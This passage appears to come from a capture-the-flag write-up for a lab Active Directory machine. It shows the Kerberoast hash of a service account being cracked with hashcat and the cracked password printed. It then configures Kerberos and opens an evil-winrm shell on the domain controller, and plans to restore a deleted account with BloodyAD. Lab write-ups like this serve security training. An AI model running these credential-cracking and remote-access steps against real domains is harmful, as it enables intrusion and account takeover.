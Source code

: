 ```
hashcat hashes.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting in autodetect mode
$krb5tgs$23$*svc_winrm$VOLEUR.HTB$voleur.htb/svc_winrm
<SNIP>:AFireInsidedeOzarctica980219afi
```
## Using evil-winrm with a Kerberos Ticket
We are able to crack the hash for the `svc_winrm` user which gives PSRemote access to the domain controller. To do this we must use evil-winrm which can a bit picky with kerberos authentication. First we must edit our `/etc/krb5.conf` to look like this:

```
[libdefaults]
    default_realm = VOLEUR.HTB
    dns_lookup_kdc = false
    dns_lookup_realm = false

[realms]
    VOLEUR.HTB = {
        kdc = dc.voleur.htb
    }

[domain_realm]
    .voleur.htb = VOLEUR.HTB
    voleur.htb = VOLEUR.HTB
```

To generate this conf file we can issue the following command to netexec which will create the conf file for us, we can then just copy it.

```
netexec smb DC.voleur.htb --generate-krb5-file voleur.krbconf
```

We also have to get a valid ticket for the `svc_winrm` user before we can use evil-winrm. Once we have the ticket and have it exported we can run the following command to start the PSRemote session. It is very important to use the correct names in the command `dc.voleur.htb` for `-i` and `voleur.htb` for `-r`

```shell
faketime -f "+8h" evil-winrm -i dc.voleur.htb -r VOLEUR.HTB
Evil-WinRM shell v3.5
*Evil-WinRM* PS C:\Users\svc_winrm\Documents> cat ~/Desktop/user.txt
bc29a2ecd<SNIP>
```
## Restoring the Deleted Account
To progress in this box we must go back to the excel spredsheet we found earlier specifically we should take a loot at the *Notes* section for the Todd.Wolfe user which says: `"Leaver. Password was reset to NightT1meP1dg3on14 and account deleted."`. One thing to notice is that the `svc_ldap` user we used earlier belongs to the `Restore Users` group, this is not a default Active Directory group but its name is pretty self explanatory. Since Todd is a Second line Support Technician we may be able to find some extra files, as of now the only files we are able to read are First Line. To enable the account again we can use BloodyAD.
